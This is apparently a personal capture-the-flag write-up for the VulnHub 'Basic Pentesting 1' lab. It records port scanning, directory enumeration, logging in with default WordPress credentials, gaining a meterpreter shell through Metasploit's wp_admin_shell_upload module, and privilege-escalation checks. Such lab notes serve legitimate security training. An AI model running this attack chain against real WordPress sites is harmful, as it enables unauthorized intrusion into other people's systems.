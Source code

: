 https://www.vulnhub.com/entry/basic-pentesting-1,216/

Difficulty: EASY


---

**S1REN's Template Reference**

\[OS]: Linux 3.2 - 4.14
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.6 
\[USERS]:   
\[CREDENTIALS]:  
http://vtcsec/secret/wp-login.php - admin:admin

---
\[To-Try LIST]:  

21 ftp     ProFTPD 1.3.3c:
- anonynmous:anonymous failed
- searchsploit
![[Pasted image 20250819112711.png]]

80 http    Apache httpd 2.4.18
/secret - WP Site 
/server-status

Later:
SSH 22 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2


---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).


--- 

\[Web Services Enumeration]:   

-  http://192.168.100.6 
- View Page Source - reveals nothing
- No Robots.txt

dirb $URL /usr/share/wordlists/dirb/common.txt  
Found 13

gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/secret
/server-status: You don't have permission to access this resource.

wpscan --url $URL/secret --disable-tls-checks --enumerate p --enumerate t --enumerate u
XML-RPC seems to be enabled: http://192.168.100.6/secret/xmlrpc.php
WordPress readme found: http://192.168.100.6/secret/readme.html
The external WP-Cron seems to be enabled: http://192.168.100.6/secret/wp-cron.php
WordPress version 4.9 identified (Insecure, released on 2017-11-16).
User(s) Identified:admin 

admin is default WP username - try default password "admin" - - Otherwise brute force??
- success


Many Links - don't resolve: can't find the server at vtccsec
Add vtcsec to /etc/hosts
Now it loads properly:
login page available: http://vtcsec/secret/wp-login.php

wpscan - http://vtcsec/secret/wp-login.php

```
msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
```
Set values accordingly:
![[Pasted image 20250819114258.png]]
meterpreter session opened


---


\[OTHER / PRIVILEGE-ESCALATION]:   

``` bash
meterpreter> shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@vtcsec:$ 

```

unix-privesc-check from pentest monkey. meterpreter>
```
upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check
shell
cd /tmp
chmod +x unix-privesc-check
./unix-privesc-check standard | grep WARNING

```



--- 
Take Away Concepts: 
Tools utilised:
- netdiscover
- nmap
- dirbuster/gobuster
- 


HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
